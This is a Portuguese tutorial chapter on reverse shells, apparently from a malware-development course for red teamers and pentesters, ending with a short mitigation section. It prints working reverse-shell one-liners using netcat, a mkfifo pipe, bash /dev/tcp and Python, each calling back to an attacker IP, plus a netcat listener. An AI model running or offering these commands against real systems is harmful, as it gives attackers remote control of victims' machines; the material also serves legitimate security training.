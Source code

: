## 3. Shells Reversas

![shells reversas](./images/4/2021-09-16_11-26.png){height=400px}    

Primeiramente, vamos entender o conceito de shell reversa, pois isso é um aspecto muito importante no desenvolvimento de malware.

### O que é uma shell reversa?

Uma shell reversa, frequentemente chamada de *connect-back shell*, é um shell remoto iniciado a partir do alvo ao se conectar de volta à máquina do atacante e abrir um shell no sistema do atacante. Isso é normalmente utilizado durante o processo de exploração para obter controle sobre a máquina remota.

![shells reversas](./images/4/shells.png)

A shell reversa pode tirar proveito de portas de saída comuns, como `80, 443, 8080`, entre outras.

Esse tipo de shell geralmente é usado quando a máquina-alvo bloqueia conexões de entrada em certas portas por meio de um firewall. Para contornar essa restrição, especialistas em Red Team e pentesters utilizam shells reversas.

No entanto, há uma desvantagem. Isso expõe o servidor de controle do atacante, e rastros podem ser capturados por serviços de monitoramento de segurança da rede da vítima.

Os três passos para obter uma shell reversa são:  
1. O atacante explora uma vulnerabilidade em um sistema ou rede alvo com a capacidade de executar código.  
2. O atacante configura um *listener* (escutador) em sua própria máquina.  
3. O atacante injeta a shell reversa no sistema vulnerável para explorar a falha.

Outra abordagem para obter uma shell reversa em ataques reais é através da engenharia social. Por exemplo, um malware instalado em uma estação de trabalho via e-mail de phishing ou um site malicioso pode iniciar uma conexão de saída com um servidor de comando e controle (C2) e fornecer aos hackers acesso remoto.

![engenharia social](./images/pt-br/4/shells2.png){width="80%"}

O objetivo deste post não é explorar uma vulnerabilidade específica em um host ou rede, mas sim entender como identificar uma vulnerabilidade que possa ser usada para execução de código.

Dependendo do sistema instalado na máquina vítima e dos serviços em execução, a shell reversa pode variar. Pode ser `php, python, jsp`, entre outras.

---

### Listener

Para simplificar, neste exemplo a vítima permite conexões de saída em qualquer porta (regra padrão do firewall iptables). No nosso caso, usamos `4444` como porta de escuta. Você pode alterá-la conforme sua preferência. O *listener* pode ser qualquer programa ou utilitário que consiga abrir conexões TCP/UDP ou *sockets*. Na maioria dos casos, gosto de usar `nc` ou `netcat`.

```bash
nc -lvp 4444
```

Aqui, `-l` significa *listen* (escutar), `-v` significa *verbose* (modo detalhado) e `-p` define a porta `4444` em todas as interfaces. Você também pode adicionar `-n` para usar apenas endereços IP numéricos, sem DNS.

![listener](./images/4/2021-09-11_17-59.png)    

---

### Executando a shell reversa (exemplos)

Para simplificar, nos exemplos a seguir o alvo é uma máquina Linux.   
**1. Netcat**   
Executar:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

Onde `10.9.1.6` é o IP da máquina do atacante e `4444` é a porta de escuta.   

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. Netcat sem `-e`**    
Versões mais recentes do Linux possuem um netcat com `GAPING_SECURITY_HOLE` desativado, o que significa que a opção `-e` não está disponível.

Neste caso, na máquina da vítima, execute:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat sem -e](./images/4/2021-09-11_18-23.png){width="80%"}

Aqui, primeiro criamos um *named pipe* (FIFO) chamado `p` usando o comando `mkfifo`. O comando `mkfifo` cria objetos no sistema de arquivos, e aqui ele é usado como um "backpipe" para redirecionar dados de volta para a entrada do shell.

**3. Bash**   
Isso não funciona em distribuições Debian antigas.   
Executar:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. Python**

Para criar uma shell semi-interativa usando Python, execute:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

Mais exemplos: [Github Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

---

### Mitigação

Infelizmente, não há uma maneira de bloquear completamente shells reversas. Se você não as utiliza para administração remota, qualquer conexão desse tipo provavelmente é maliciosa. Para limitar a exploração, restrinja conectividade de saída apenas para IPs e portas específicas necessárias para serviços confiáveis. Isso pode ser feito via sandboxing ou executando o servidor em um container minimalista.
